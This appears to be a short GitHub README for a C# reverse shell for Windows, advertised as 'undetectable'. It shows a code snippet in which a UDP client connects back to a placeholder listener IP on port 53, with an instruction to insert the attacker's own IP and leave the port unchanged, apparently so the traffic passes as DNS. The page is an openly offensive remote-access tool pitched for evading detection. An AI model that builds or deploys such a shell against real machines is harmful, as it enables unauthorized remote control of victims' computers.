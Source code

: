 # reverse-shell-csharp
UNDETECTABLE Reverse Shell with C# by Windows!
<br><br><br>
Change the listener IP here<br>
<code>
			try{<br>
				udpClient.Connect("111.111.1.111", 53); // Write your ip but don't change the port!<br>
			}<br>
</code>
